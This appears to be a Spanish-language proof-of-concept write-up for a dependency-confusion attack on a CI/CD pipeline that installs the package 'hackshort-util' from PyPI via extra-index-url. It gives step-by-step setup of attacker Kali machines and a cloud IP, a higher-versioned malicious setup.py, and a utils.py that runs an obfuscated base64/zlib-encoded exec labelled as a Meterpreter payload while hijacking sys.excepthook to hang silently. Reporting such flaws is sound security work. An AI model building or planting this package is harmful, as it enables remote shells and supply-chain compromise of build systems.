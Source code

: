 
## Explotabilidad Práctica: Ejemplo Claro para Reproducir el Ataque

### Escenario
Una empresa usa un pipeline CI/CD que depende de `hackshort-util~=1.1.0`, configurado con `extra-index-url` para buscar en un repositorio interno y PyPI. Un atacante descubre esta dependencia en un foro público y decide explotarla.

### Pasos para Reproducir

1. **Preparar el Entorno**:
   - Configurar una máquina Kali local y una instancia Kali en la nube (IP: `192.88.99.76`).
   - Crear un directorio para el paquete malicioso:
     ```bash
     mkdir hackshort-util && cd hackshort-util
     ```

2. **Crear el Paquete Malicioso**:
   - Crear un archivo `setup.py`:
     ```python
     from setuptools import setup
     setup(
         name="hackshort-util",
         version="1.1.4",
         packages=["hackshort_util"],
     )
     ```
   - Crear un directorio `hackshort_util` con un archivo `utils.py`:
     ```python
     import time
     import sys

     def standardFunction():
         pass

     def __getattr__(name):
         return standardFunction

     def catch_exception(exc_type, exc_value, tb):
         while True:
             time.sleep(1000)

     sys.excepthook = catch_exception

     # Payload Meterpreter
     exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNo9UE1LxDAQPTe/IrckGMPuUrvtYgURDyIiuHsTWdp01NI0KZmsVsX/7oYsXmZ4b968+ejHyflA0ekBgvw2fSvbBqHIJQZ/0EGGfgTy6jydaW+pb+wb8OVCbEgW/NcxZlinZpUSX8kT3j7e3O+3u6fb6wcRdUo7a0EHztmyWqmyVFWl1gWTeV6WIkpaD81AMpg1TCF6x+EKDcDELwQxddpJHezU6IGzqzsmUXnQHzwX4nnxQrr6hI0gn++9AWrA8k5cmqNdd/ZfPU+0IDCD5vFs1YF24+QBkacPqLbII9lBVMofhmyDv4L8AerjXyE=')[0])))
     ```
